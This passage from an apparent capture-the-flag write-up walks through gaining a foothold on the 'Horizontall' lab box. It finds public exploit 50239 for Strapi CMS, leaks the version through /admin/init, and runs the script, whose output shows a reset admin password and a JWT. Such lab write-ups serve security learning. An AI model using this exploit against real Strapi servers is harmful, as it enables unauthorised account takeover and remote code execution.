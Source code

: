 ## Foothold

We found some exploits using `searchsploit` earlier. So, maybe those will be helpful. We can also check [snyk](https://snyk.io), which finds [the same exploits plus a few more](https://snyk.io/vuln/npm:strapi).

Let's take a look at the "Remote Code Execution (RCE) (Unauthenticated)" exploit, since it requires the least access to the system and is a RCE. We can look at the exploit script on the [exploit-db website](https://www.exploit-db.com/exploits/50239) or by copying it to our home directory by running `searchsploit -m 50239.py`.

There is a `check_version` function that checks if the version of Strapi is the one with the vulnerability.

```python
def check_version():
    global url
    print("[+] Checking Strapi CMS Version running")
    version = requests.get(f"{url}/admin/init").text
    version = json.loads(version)
    version = version["data"]["strapiVersion"]
    if version == "3.0.0-beta.17.4":
        print("[+] Seems like the exploit will work!!!\n[+] Executing exploit\n\n")
    else:
        print("[-] Version mismatch trying the exploit anyway")
```

Apparently, the version information is public at the `/admin/init` endpoint. Requesting that endpoint (`curl http://api-prod.horizontall.htb/admin/init`) shows that the version is `3.0.0-beta.17.4`, which is indeed the vulnerable version: `{"data":{"uuid":"a55da3bd-9693-4a08-9279-f9df57fd1817","currentEnvironment":"development","autoReload":false,"strapiVersion":"3.0.0-beta.17.4"}}`.

Let's try running the script

```bash
$ python3 50239.py
[-] Wrong number of arguments provided
[*] Usage: python3 exploit.py <URL>
```

Looks like we simply need to specify the URL:

```bash
$ python3 50239.py http://api-prod.horizontall.htb
[+] Checking Strapi CMS Version running
[+] Seems like the exploit will work!!!
[+] Executing exploit


[+] Password reset was successfully
[+] Your email is: admin@horizontall.htb
[+] Your new credentials are: admin:SuperStrongPassword1
[+] Your authenticated JSON Web Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjQ0Nzg5MTM3LCJleHAiOjE2NDczODExMzd9.xOmEWy3K2A4eXRI01t4gmgxlmRSjCJI0v34HO9-kWTw

$>
```

